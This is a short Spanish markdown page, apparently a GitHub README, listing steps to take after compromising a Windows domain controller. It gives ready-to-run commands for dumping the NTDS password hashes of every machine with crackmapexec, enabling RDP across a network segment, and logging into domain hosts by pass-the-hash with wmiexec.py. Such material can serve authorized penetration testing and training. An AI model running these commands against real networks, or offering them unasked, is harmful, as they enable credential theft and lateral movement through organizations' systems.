 # Cosas que hacer despues de comprometer el DC

## Dumpear el hash ntds de todos los equipos.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds
```
[Ver ejemplo](Images/ntds/README.md)

## Activar la conexión por rdp en todos los equipos.
```
crackmapexec smb <segmento_red> -u 'Administrator' -p 'P@$$w0rd!' -M rdp -o action=enable
```
[Ver ejemplo](Images/rdp/README.md)

## Pass The Hash
Esto te permitirá conectarte a los equipos del dominio sin proporcionar contraseña, hay varias herramientas para ello como wmiexec.py.
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```
